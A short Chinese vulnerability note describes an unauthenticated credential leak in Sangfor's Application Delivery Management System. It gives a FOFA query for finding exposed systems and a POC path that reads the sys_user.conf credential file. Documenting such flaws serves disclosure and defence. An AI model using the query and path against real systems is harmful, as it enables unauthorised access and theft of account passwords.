


# 深信服 应用交付管理系统 sys_user.conf 账号密码泄漏漏洞

## 漏洞描述

深信服 应用交付管理系统 文件sys_user.conf可在未授权的情况下直接访问，导致账号密码泄漏

## 漏洞影响

```
深信服 应用交付管理系统
```

## FOFA

```
app="SANGFOR-应用交付管理系统"
```

## 漏洞复现

登录页面



验证POC

```
/tmp/updateme/sinfor/ad/sys/sys_user.conf
```

